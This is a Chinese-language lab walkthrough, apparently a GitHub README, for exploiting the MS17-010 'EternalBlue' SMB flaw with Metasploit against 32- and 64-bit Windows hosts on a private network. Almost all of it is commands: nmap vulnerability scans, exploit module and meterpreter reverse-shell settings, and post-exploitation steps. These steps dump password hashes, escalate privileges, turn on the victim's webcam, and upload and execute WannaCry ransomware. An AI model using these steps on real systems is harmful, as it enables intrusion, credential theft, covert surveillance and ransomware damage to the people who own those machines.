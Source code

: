 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010`    定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
`msfconsole` /进入msf> \
`version` /确保MS框架版本在 4.14.17以上,否则请apt-get install \
 \
search search ms17_010 /漏洞模块路径查询，搜索到了 4 个相关的插件： \
`auxiliary/admin/smb/ms17_010_command` \
`auxiliary/scanner/smb/smb_ms17_010` \
`exploit/windows/smb/ms17_010_eternalblue` \
`exploit/windows/smb/ms17_010_psexec` \
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules \
`use exploit/windows/smb/ms17_010_eternalblue`   /调用攻击模块 \
`options` /查看参数,并设置： \
`set RHOST 192.168.43.2` /设定攻击目标  \
`show payloads` /查看详细信息 \
`set payload windows/x64/meterpreter/reverse_tcp` /配置攻击载荷  \
`set LHOST 192.168.43.1` /设置操作机地址,即kali本机地址 \
`exploit` /发起攻击,也可以用`run` \
出现win -success!就成功了。

## 可以试试以下操作，或者help
`getuid，sysinfo` /查看系统信息 \
`webcam_list` /看看被控制的电脑有没有摄像头,如果有用`webcam_stream`命令可以打开摄像头监控 \
`route` /查看路由表 \
`screenshot` /桌面截图，很卡 \
`shell` /打开命令行，然后可以ipconfig/whoami/net user \
`ps` /看看开了哪些杀毒软件，内网一致 \
`kill` \
`hashdump` \
`getsystem` \
提权 \
`upload wcry/wcry.ext c:\` \
`upload wcry/FILE_ID.DIZ c:\` \
`execute -f c:\wcry.exe` \
上传和执行勒索病毒

## 使用msf框架攻击win32
`use exploit/windows/smb/ms17_010_psexec` \
`set RHOST 192.168.43.3` \
`set payload windows/meterpreter/reverse_tcp` \
`show options` /查看设置好的参数 \
`set LHOST 192.168.43.1` \
`set SMBUser aleecy` /32位机的账号 \
`set SMBPass 0` /32位机的密码 \
`exploit`


## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
